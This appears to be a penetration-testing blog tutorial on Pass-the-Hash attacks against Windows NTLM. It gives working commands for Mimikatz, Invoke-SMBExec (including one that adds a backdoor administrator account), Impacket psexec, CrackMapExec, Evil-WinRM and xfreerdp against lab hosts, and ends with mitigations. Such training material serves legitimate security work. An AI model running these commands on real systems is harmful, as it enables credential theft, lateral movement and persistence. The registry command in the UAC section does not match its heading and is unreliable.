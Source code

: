 ```yaml
---

title: "Pass the Hash (PtH) Attack: A Practical Guide"
date: 2025-05-25 00:00:00 +0000
tags:

* pentesting
* windows
* mimikatz
* impacket
* red-teaming
  categories:
* security
* red-teaming
  pin: false

---
```


A Pass the Hash (PtH) attack is a technique in which an attacker uses a password hash to authenticate to remote systems instead of the plaintext password. This method exploits authentication protocols like NTLM that accept hashed credentials without decrypting them. Since the hash remains valid until the user changes the password, it can be reused multiple times, making it a powerful attack vector.

---

### Requirements for a PtH Attack

To execute a PtH attack, the attacker typically needs elevated privileges on the target system to extract password hashes. Common methods to acquire these hashes include:

* Dumping the Security Account Manager (SAM) database.
* Extracting hashes from the NTDS.dit file on a Domain Controller.
* Retrieving hashes from memory (e.g., `lsass.exe`).

---

## Windows NTLM Overview

NTLM (New Technology LAN Manager) is a challenge-response authentication protocol still used in Windows environments, primarily for backward compatibility. However, it lacks modern security features like salting passwords, making it vulnerable to PtH attacks.

Read more at Microsoft's documentation: [NTLM Authentication](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

## Performing PtH Attacks

### 1. **Using Mimikatz (Windows)**

Mimikatz includes the `sekurlsa::pth` module, which starts a new process with a specified user's hash:

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe"
```

Reference: [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

### 2. **Invoke-TheHash (Windows)**

Invoke-TheHash is a PowerShell toolset for PtH attacks using SMB and WMI:

```powershell
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add"
```

For a reverse shell, use: [https://www.revshells.com](https://www.revshells.com)

Tool: [Invoke-TheHash GitHub](https://github.com/Kevin-Robertson/Invoke-TheHash)

### 3. **Impacket PsExec (Linux)**

Impacket provides various Python-based tools for network attacks:

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Impacket GitHub](https://github.com/fortra/impacket)

### 4. **CrackMapExec (Linux)**

CrackMapExec is ideal for automating enumeration and attack steps in AD environments:

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

Documentation: [NetExec Wiki](https://netexec.readthedocs.io/en/latest/)

### 5. **Evil-WinRM (Linux)**

Evil-WinRM allows PowerShell Remoting with hashes:

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

### 6. **Using xfreerdp for RDP (Linux)**

Ensure Restricted Admin Mode is enabled, then:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

More on configuring RDP for PtH: [FreeRDP Wiki](https://github.com/FreeRDP/FreeRDP/wiki)

---

## UAC and LocalAccountTokenFilterPolicy

UAC restricts remote administrative access for local accounts unless configured properly. Modify these registry keys to enable remote use:

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

For more details, see Will Schroeder’s blog: [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

---

## Conclusion

Pass the Hash remains a critical threat in Windows environments relying on NTLM. Tools like Mimikatz, Impacket, and CrackMapExec make exploitation straightforward if proper defenses aren't in place. Organizations should consider mitigating PtH by disabling NTLM where possible, enforcing strong credential hygiene, using LAPS, and monitoring authentication logs.

**Always test ethically and in controlled environments. For educational use only.**

